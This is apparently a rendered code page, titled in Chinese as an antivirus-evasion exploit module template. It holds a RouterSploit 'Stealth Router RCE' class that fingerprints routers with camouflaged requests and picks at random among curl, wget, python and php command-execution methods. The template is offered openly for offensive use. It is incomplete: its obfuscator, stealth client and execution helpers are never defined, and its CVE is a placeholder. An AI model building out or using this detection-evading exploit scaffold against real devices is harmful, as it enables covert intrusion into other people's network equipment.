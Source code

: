 ### 1. 免杀漏洞利用模块模板

```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient
import random
import string

class StealthExploit(HTTPClient):
    """免杀漏洞利用模块模板"""
    
    __info__ = {
        "name": "Stealth Router RCE",
        "description": "Obfuscated remote code execution",
        "authors": ("Stealth Team",),
        "references": ("CVE-2023-XXXXX",),
        "devices": ("Vendor Model",)
    }
    
    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target HTTP port")
    
    def __init__(self):
        self.obfuscator = CommandObfuscator()
        self.stealth_client = StealthHTTPClient()
        self.execution_methods = [
            self._exec_method_curl,
            self._exec_method_wget,
            self._exec_method_python,
            self._exec_method_php
        ]
    
    def run(self):
        if not self.check():
            print_error("Target is not vulnerable or detected")
            return False
        
        print_success("Target appears vulnerable, executing stealth payload...")
        
        # 随机选择执行方法
        exec_method = random.choice(self.execution_methods)
        
        if exec_method():
            print_success("Exploit completed successfully")
            return True
        else:
            print_error("Exploit failed")
            return False
    
    def check(self):
        """隐蔽的漏洞检查"""
        # 使用合法的请求模式
        response = self.stealth_client.stealth_request(
            method="GET",
            path="/status.html",
            session=self.session
        )
        
        if response and "TargetDevice" in response.text:
            # 检查版本号等指纹信息
            return self._fingerprint_version(response.text)
        
        return False
```
